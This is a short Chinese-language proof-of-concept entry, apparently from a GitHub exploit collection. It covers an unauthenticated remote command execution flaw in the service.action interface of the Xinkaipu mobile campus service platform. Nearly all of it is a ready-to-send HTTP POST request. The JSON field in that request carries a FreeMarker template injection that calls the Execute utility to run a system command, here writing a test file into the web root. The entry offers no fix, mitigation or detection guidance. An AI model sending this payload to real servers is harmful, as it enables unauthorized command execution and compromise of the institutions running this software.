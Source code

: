 
## 新开普掌上校园服务管理平台service.action远程命令执行
新开普掌上校园服务管理平台service.action接口处存在远程命令执行漏洞，攻击者可在未经身份认证的情况下，调用后台接口，执行恶意系统命令。

## POC
```
POST /service_transport/service.action HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/114.0
Connection: close
Content-Length: 211
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Cookie: JSESSIONID=6A13B163B0FA9A5F8FE53D4153AC13A4
Upgrade-Insecure-Requests: 1

{  "command": "GetFZinfo",  "UnitCode": "<#assign ex = "freemarker.template.utility.Execute"  ?new()>${ex("cmd /c echo 123 >./webapps/ROOT/test.txt")}"}

```

![image](https://github.com/wy876/POC/assets/139549762/1743d6a9-3472-4e9e-ad0e-86b1d5a50dac)
![image](https://github.com/wy876/POC/assets/139549762/67e35c0c-6892-409c-9239-425b79566650)

